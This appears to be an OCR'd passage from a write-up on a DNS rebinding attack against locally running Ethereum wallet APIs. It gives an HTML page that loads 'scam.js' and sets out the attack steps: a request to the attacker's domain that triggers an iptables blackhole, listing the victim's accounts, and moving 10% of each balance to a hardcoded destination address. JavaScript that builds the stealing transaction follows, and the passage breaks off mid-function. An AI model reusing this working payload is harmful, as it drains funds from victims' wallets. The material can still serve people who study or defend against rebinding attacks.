 ```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>taker</title>
    <script src="[https://cdnjs.cloudflare.com/ajax/libs/jquery/2.2.0/jquery.min.js](https://cdnjs.cloudflare.com/ajax/libs/jquery/2.2.0/jquery.min.js)"></script>
  </head>
  <body>
    <div id="logDiv"></div>
    <script src="scam.js"></script>
  </body>
</html>
```

## The JavaScript
This JavaScript we serve does a few things:

1. send a HTTP GET request to `http://eth.rhodey.org/goodbye`, triggering the iptables blackhole
2. retrieve a list of Ethereum accounts from the wallet's API
3. send `%10` of each account's balance to my Ethereum account

Between step 1 and 2 the victim's IP Address has been blackholed by iptables such that the browser receives a `TCP RST`, this causes the browser to move onto the next record for `eth.rhodey.org` which is `127.0.0.1`... rebind complete! Communication between JavaScript and the Ethereum JSON API is made possible by the Ethereum [web3.js](https://github.com/ethereum/wiki/wiki/JavaScript-API) library.

```javascript
var BigNumber    = require('big-number');
var DEST_ADDRESS = "0x3ffc132784c89a7edda93e3ad3d669ab6c013cfd";
var web3         = null;
var logHtml      = "";

function getHref() {
  var parts = window.location.href.split("/");
  return parts[0] + "//" + parts[2];
}

function log(msg) {
  var logDiv        = document.getElementById("logDiv");
      logHtml      += ("<br/>" + msg);
  logDiv.innerHTML  = logHtml;
}

function initW3() {
  log("initializing w3...");
  var Web3 = require('web3');
      web3 = new Web3();

  web3.setProvider(new web3.providers.HttpProvider(getHref()));
}

function takeEthFrom(address) {
  log("getting balance for account " + address + "...");
  var balanceWei = web3.eth.getBalance(address);
  var takeWei    = balanceWei.div(10);
  var txn        = {
    from  : address,
    to    : DEST_ADDRESS,
    value : takeWei
  };

  log("sending transaction -> " + JSON.stringify(txn, null, 2));
```